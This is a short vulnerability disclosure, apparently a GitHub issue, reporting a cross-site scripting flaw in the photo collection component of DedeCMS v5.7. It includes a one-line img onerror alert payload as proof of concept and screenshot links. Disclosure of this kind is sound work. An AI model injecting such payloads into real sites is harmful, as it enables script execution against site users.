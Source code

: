 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a cross-site scripting (XSS) vulnerability via the component Photo collection

![1](https://github.com/777erp/cms/assets/113673221/32560944-30d6-4452-8409-02c27cff1b76)


poc:
```
<img onerror="alert(1)" src="1" />

```

successed

![2](https://github.com/777erp/cms/assets/113673221/5a6ade95-4341-461e-adf7-1fd87d28a52a)
